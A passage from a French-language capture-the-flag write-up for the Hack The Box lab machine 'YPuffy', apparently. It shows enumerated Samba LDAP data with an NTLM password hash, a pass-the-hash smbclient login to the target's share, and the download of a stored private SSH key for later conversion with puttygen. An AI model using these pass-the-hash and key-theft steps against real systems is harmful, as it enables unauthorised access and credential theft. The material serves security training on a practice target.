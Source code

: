     |         sambaMinPwdLength: 5
    |         sambaPwdHistoryLength: 0
    |         sambaLogonToChgPwd: 0
    |         sambaMaxPwdAge: -1
    |         sambaMinPwdAge: 0
    |         sambaLockoutDuration: 30
    |         sambaLockoutObservationWindow: 30
    |         sambaLockoutThreshold: 0
    |         sambaForceLogoff: -1
    |         sambaRefuseMachinePwdChange: 0
    |_        sambaNextRid: 1001

Nous avons beaucoup d'informations comme on peut le voir il y'a 2 utilisateurs **alice1978** et **bob8791**, nous avons aussi des noms de domaine, le shell utilisé est ksh.

Nous avons aussi un mot de passe **sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B**, c'est un mot de passe chiffré en NTLM donc il y'a une option sur le programme smbclient pour se connecter grâce au hash NTLM.
L'options est : --pw-nt-hash.

Samba
----
    root@seyptoo-Aspire-E5-721:~/htb/writeup/YPuffy/www# smbclient -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash \\\\10.10.10.107\\alice
    WARNING: The "syslog" option is deprecated
    Domain=[YPUFFY] OS=[Windows 6.1] Server=[Samba 4.7.6]
    smb: \> ls
      .                                   D        0  Tue Jul 31 04:54:20 2018
      ..                                  D        0  Fri Feb  8 18:43:55 2019
      my_private_key.ppk                  A     1460  Tue Jul 17 03:38:51 2018

                    433262 blocks of size 1024. 411514 blocks available

Utilisé la commande **mget** pour transférer le fichier dans votre machine physique afin de faire de la manipulation avec ce fichier.

    smb: \> mget my_private_key.ppk
    Get file my_private_key.ppk? y
    getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (7,7 KiloBytes/sec) (average 7,7 KiloBytes/sec)
    smb: \>
    
Une fois que la transfert à été effectué avec succès nous devons convertir ce fichier en clé RSA avec la commande puttygen rien de compliqué pour la conversion.

Shell > User.txt
----
Donc la commande à utilisé est puttygen si vous n'avez pas ce logiciel dans votre système vous avez juste a installer avec la commande **apt-get install putty-tools** ou bien manuellement.
